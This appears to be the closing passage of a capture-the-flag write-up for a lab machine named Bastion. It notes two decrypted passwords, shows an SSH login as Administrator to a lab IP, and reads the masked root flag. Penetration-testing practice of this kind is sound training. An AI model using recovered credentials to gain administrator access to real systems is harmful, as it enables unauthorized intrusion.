 Both passwords decrypted! Let's check if we could use `Administrator` credentials to gain access over SSH

```
ssh Administrator@$TARGET_IP
Administrator@10.129.82.228's password:

Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

administrator@BASTION C:\Users\Administrator>
```

We have sucessfully elevated priviliges to `Administrator`! Let's grab the flag and we're done.
```
administrator@BASTION C:\Users\Administrator>type C:\Users\Administrator\Desktop\root.txt                                       
********************************
```